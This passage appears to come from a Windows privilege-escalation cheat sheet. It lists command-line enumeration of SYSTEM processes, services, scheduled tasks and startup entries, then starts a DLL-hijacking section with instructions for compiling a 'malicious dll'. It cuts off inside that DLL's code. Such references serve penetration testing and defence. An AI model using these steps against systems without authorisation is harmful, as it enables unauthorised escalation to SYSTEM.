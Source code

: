 - Which processes are running as "system"
    
- ```
    tasklist /v /fi "username eq system"
    ```
    
- Do you have powershell magic?
    
- ```
    REG QUERY "HKLM\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine" /v PowerShellVersion
    ```
    
- List installed programs
    
- ```
    Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime
    Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name
    ```
    
- List services
    
- ```
    net start
    wmic service list brief
    tasklist /SVC
    ```
    
- Enumerate scheduled tasks
    
- ```
    schtasks /query /fo LIST 2>nul | findstr TaskName
    schtasks /query /fo LIST /v > schtasks.txt; cat schtask.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM
    Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
    ```
    
- Startup tasks
    

- ```
    wmic startup get caption,command
    reg query HKLM\Software\Microsoft\Windows\CurrentVersion\R
    reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
    reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
    dir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"
    dir "C:\Documents and Settings\%username%\Start Menu\Programs\Startup"
    ```
    

## EoP - Incorrect permissions in services

> A service running as Administrator/SYSTEM with incorrect file permissions might allow EoP. You can replace the binary, restart the service and get system.

Often, services are pointing to writeable locations: - Orphaned installs, not installed anymore but still exist in startup - DLL Hijacking

```
# find missing DLL 
- Find-PathDLLHijack PowerUp.ps1
- Process Monitor : check for "Name Not Found"

# compile a malicious dll
- For x64 compile with: "x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll"
- For x86 compile with: "i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll"

# content of windows_dll.c
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
```